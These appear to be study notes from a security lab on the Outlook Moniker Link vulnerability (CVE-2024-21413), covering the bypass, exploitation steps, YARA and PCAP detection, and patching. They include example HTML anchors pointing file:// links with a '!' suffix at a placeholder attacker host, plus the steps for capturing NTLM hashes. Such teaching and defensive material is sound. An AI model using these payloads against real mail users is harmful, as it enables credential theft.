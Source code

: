 # Moniker Link (CVE-2024-21413)

## Introduction
- The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's NTLM credentials to the attacker once the hyperlink is clicked.


## Moniker Link

### Concepts learned
- Outlook renders HTML and can open file:// moniker links.
- Outlook’s Protected View normally blocks automatic external-app / network triggers from email.
- Adding ! + text to a file:// moniker (e.g. file://ATTACKER/test!exploit) can bypass Protected View.
- Bypass causes an SMB auth attempt that leaks the victim’s netNTLMv2 hash.
- The remote share does not need to exist for the auth attempt to occur.
- Moniker handling uses Windows COM — credential theft is confirmed; RCE is theoretical (no PoC shown in the room).

### Explanation
- Outlook parses HTML anchors and treats file:// URIs as moniker links that can invoke OS handlers.
- Protected View intercepts and blocks external actions from email (read-only sandbox).
- The ! suffix in a file:// moniker changes how Outlook processes the link, causing Protected View to be bypassed.
- Once bypassed, Outlook attempts to access the specified SMB resource and performs NTLM/NTLMv2 authentication.
- The resulting netNTLMv2 response is sent to the attacker-controlled endpoint and can be captured.
- Captured hashes can be used for NTLM relay or offline analysis; COM involvement creates a theoretical path to code execution (not demonstrated).

### Notes
**Examples:**
- Blocked: <a href="file://ATTACKER_MACHINE/test">Click me</a>
- Bypass: <a href="file://ATTACKER_MACHINE/test!exploit">Click me</a>
**Key facts:**
- Share need not exist — authentication attempt alone leaks the hash.
- Domain-joined users may expose domain credentials.
**Detection signals:**
- Outlook (Outlook.exe) making SMB connections to external/unfamiliar IPs (TCP 445/139).
- Email bodies containing file:// URIs with ! suffix.
**Essential mitigations:**
- Apply vendor patches for CVE-2024-21413.
- Block outbound SMB (TCP 445/139) from client networks.


## Exploitaion

### Concepts learned
- Attack goal: email a Moniker Link that bypasses Outlook Protected View so the victim’s client attempts SMB auth to the attacker, leaking netNTLMv2.
- PoC approach: send an HTML email with a file://...!exploit link and have an SMB listener capture the authentication handshake.
- Practical steps: modify the moniker to your AttackBox IP, send via SMTP, have an SMB responder/listener running, victim clicks link → hash captured.

### Explanation
- The PoC constructs an HTML email containing a moniker link: <a href="file://ATTACKER_IP/test!exploit">Click me</a>.
- The script uses SMTP to deliver that HTML email to the victim mailbox.
- When Outlook processes the link (due to the ! suffix bypass), it attempts to access the SMB resource on the attacker IP, initiating NTLM/NTLMv2 auth.
- An attacker-controlled SMB listener (e.g., Responder or Impacket) accepts the connection and logs the netNTLMv2 response.
- Captured netNTLMv2 can be relayed or analyzed offline according to attacker capability.

### Notes
- PoC essentials: Python script builds MIME HTML email, fills From/To/Subject, connects to an SMTP server, authenticates, and sends the message.
**Required edits before running PoC:**
 - Replace ATTACKER_MACHINE in the moniker with your AttackBox IP.
 - Replace MAILSERVER with the room's SMTP server (or your SMTP).
 - Provide attacker account password when prompted (room uses attacker).
**Minimal attacker setup:**
 - Start an SMB listener (Responder or equivalent) on your attack interface.
 - Run the PoC script (e.g., python3 exploit.py).
 - Minimal verification: after victim clicks the link, the SMB listener will show the captured netNTLMv2.
 - Ethical note: use this only in lab environments / with permission.
 - Disable automatic external content rendering in mail clients.


## Detection

### Concepts learned
- Detect via email content (YARA) and network captures (PCAP/Wireshark).
- Florian Roth’s YARA flags file:// moniker patterns used by the exploit.
- Outbound SMB from Outlook shows NTLM/netNTLMv2 handshake in PCAP.

### Explanation
- YARA scans email headers/bodies for file://...! moniker patterns and common file extensions.
- If clicked, Outlook may initiate SMB auth to an external host — visible as SMB/NTLM traffic in PCAP.
- Correlating the email receipt and an outbound SMB connection is a strong indicator.

### Notes
- Actions: run YARA on mailstore; monitor outbound SMB (TCP 445/139); capture PCAPs for NTLM handshakes.
- Response: isolate host, collect email + PCAP + Windows auth logs.
- Tools: YARA, Wireshark/tcpdump, EDR/host logs.


## Remediation

### Concepts learned
- Patching Office/Outlook fixes CVE-2024-21413.
- Outlook configuration alone cannot prevent this exploit.
- Temporary controls include network blocks and user awareness.

### Explanation
- Apply Microsoft updates from February 2024 to remove the vulnerability.
- Blocking outbound SMB to untrusted IPs reduces risk but may affect legitimate file-sharing.
- Educating users to avoid unsolicited links and report suspicious emails helps mitigate attacks while patches are applied.

### Notes
- Patch: Windows Update or Microsoft Update Catalog (Feb 2024 Office/Outlook release).
- Network: Block SMB (TCP 445/139) to external hosts if possible.
- User awareness: Don’t click unknown links, preview URLs, report suspicious emails.
- Outlook settings: Protected View cannot fully stop this exploit.


## Key Takeaways
- Outlook can render HTML emails and process file:// moniker links, which can be exploited.
- Protected View mitigates some risks but can be bypassed using crafted moniker links (! suffix).
- Clicking a malicious moniker link can leak netNTLMv2 hashes via SMB to an attacker-controlled host.
- Exploitation can be automated via email phishing and SMTP delivery scripts.
- Detection can be performed using YARA rules on email content and monitoring SMB/NTLM traffic.
- Patch Office/Outlook promptly to fix CVE-2024-21413; configuration-only changes cannot fully prevent this attack.
- Temporary mitigations include network controls (blocking outbound SMB) and user awareness (avoid unsolicited links, report suspicious emails).
- Always test and practice attacks in controlled lab environments; never on production or unauthorized systems.
